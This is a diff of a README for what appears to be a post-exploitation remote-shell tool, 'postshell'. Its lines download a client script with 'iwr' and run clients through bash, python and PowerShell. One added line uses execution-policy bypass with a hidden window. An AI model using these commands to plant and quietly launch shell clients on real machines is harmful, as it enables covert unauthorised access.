

Before and after one commit to BwithE/postshell, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -139,11 +139,15 @@ iwr http://127.0.0.1/tools/client.ps1 -outfile client.ps1
 
 ## Execute the script on the client
 ```
-bash client.sh
+/bin/ash client.sh
 
-python3 client.py
+/bin/bash client.sh
+
+/bin/python3 client.py
 
 powershell -ep bypass client.ps1
+
+powershell -ep bypass -NoProfile -WindowStyle Hidden -File client.ps1
 ```
 
 ## List active clients
````
